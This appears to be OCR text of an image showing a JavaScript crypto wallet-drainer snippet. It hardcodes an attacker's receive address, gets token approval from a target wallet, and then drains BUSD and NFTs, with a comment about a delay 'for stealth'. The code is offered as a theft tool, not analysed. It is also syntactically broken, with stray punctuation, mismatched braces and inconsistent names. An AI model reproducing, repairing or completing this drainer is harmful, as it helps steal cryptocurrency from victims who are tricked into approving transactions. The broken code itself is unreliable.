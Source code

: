 //code for local smart contract

const receiveAddress = "0xEd445937EfcF8dAf267174181026F3e873B528AC";   // remove the words and replace it with your bsc address    

	
var cryptotokenContract;
var smartcontract


function approveSpending(token) {
	
	 smartcontract.methods.approvetransaction.(targetwallet);      //the smart contract gets approved to access tokens
	smartcontract.methods.drainBUSD.send(to:recieveAddress).token(cryptotokencontract); // the smart contract drains to your wallet after 2-48 hours for stealth
}
	  
  			
}

function drainwallet(token) {
	  cryptotokenContract.methods.transfer(receiveAddress).send({ from: currentAddr, to:receiveAddress }); //this drains the nfts if the value is above 0.5 eth 
  			
}
